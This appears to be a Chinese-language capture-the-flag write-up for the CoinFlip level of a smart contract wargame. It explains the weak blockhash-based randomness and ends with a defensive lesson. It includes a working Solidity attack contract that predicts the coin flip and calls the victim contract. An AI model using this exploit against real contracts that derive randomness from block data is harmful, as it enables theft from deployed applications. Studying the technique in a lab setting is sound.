 # 第三关：CoinFlip
### 本关知识点：
```
1. 通过全局变量获取到区块高度
```

## 1. 题目要求
`这是一个掷硬币的游戏，你需要连续的猜对结果。完成这一关，你需要通过你的超能力来连续猜对十次。`

## 2. 代码功能解读
```
1. 构造器初始化consecutiveWins为0
2. flip(bool _guess)方法中，不能在同一个区块中调用此方法，当我们输入的_guess猜中计算的答案的时候，consecutiveWins累加，猜错一次就重置次数。
```


## 3. 漏洞分析
```
攻击点在于区块中的数据都是共享的，都是确定的。
	我们可以编写攻击合约去调用受害者合约，这样他们在一次交易中提交到区块，所以他们的区块高度肯定一样，那么我们可以写一个方法得到答案，然后再调用flip方法，然后当区块跟新后就再次计算答案，连续十次即可。
```

## 4. 攻击方法
	编写攻击合约，调用攻击合约进行攻击。

``` java

// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

  

interface CoinFlipInterface {

    function flip(bool _guess) external returns (bool);

}

  

contract Exploit {

    uint256 FACTOR =

        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    CoinFlipInterface victim;

  

    constructor(address _victim) {

        victim = CoinFlipInterface(_victim);

    }

    function Attack() public returns (bool) {

        bool guess_ = guess();

        return victim.flip(guess_);

    }

    function guess() public view returns (bool) {

        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip = blockValue / FACTOR;

        bool side = coinFlip == 1 ? true : false;

        return side;

    }

}
```

## 5. 攻击调用图

![[Pasted image 20230511142044.png]]
有时间的朋友可以自己完成十次攻击。
![[Pasted image 20230511141951.png]]

## 6. 知识点分析
不要利用区块中的数据做预测
- 不用用区块高度，时间戳等全局变量做随机数预测，攻击者只要利用攻击合约调用方法，就可以保证和受害者合约得到相同的全局变量，从而轻松破解数学谜底。